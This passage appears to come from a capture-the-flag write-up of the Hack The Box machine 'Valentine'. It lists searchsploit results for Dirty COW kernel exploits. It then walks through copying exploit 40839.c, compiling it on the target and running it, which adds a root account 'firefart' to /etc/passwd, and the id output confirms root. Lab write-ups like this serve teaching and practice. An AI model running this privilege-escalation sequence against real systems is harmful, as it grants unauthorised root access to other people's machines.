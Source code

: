 ```
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)                                                                     | exploits/linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)                                                                                        | exploits/linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)                                                                  | exploits/linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method)                                                                                         | exploits/linux/local/40611.c
Quick and Dirty Blog (qdblog) 0.4 - 'categories.php' Local File Inclusion                                                                                                           | exploits/php/webapps/4603.txt
Quick and Dirty Blog (qdblog) 0.4 - SQL Injection / Local File Inclusion                                                                                                            | exploits/php/webapps/3729.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
Shellcodes: No Result

```

After looking over a few, selected one that would add a root user to the passwd file:

```

root@kali# searchsploit -m exploits/linux/local/40839.c
  Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
      URL: https://www.exploit-db.com/exploits/40839/
     Path: /usr/share/exploitdb/exploits/linux/local/40839.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: ~/hackthebox/valentine-10.10.10.79/40839.c

```

Uploaded to the box, compile, and run:

```

hype@Valentine:/dev/shm$ gcc -pthread dc.c -o c -lcrypt

hype@Valentine:/dev/shm$ file c
c: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xe2dea237b60ba9dc122a44d0505f9796b0b8a159, not stripped
hype@Valentine:/dev/shm$ chmod +x c
hype@Valentine:/dev/shm$ ./c
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fifdjzBMn8d5E:0:0:pwned:/root:/bin/bash

mmap: 7f004ef9b000

hype@Valentine:/dev/shm$ su firefart
Password:

firefart@Valentine:/dev/shm# id
uid=0(firefart) gid=0(root) groups=0(root)

```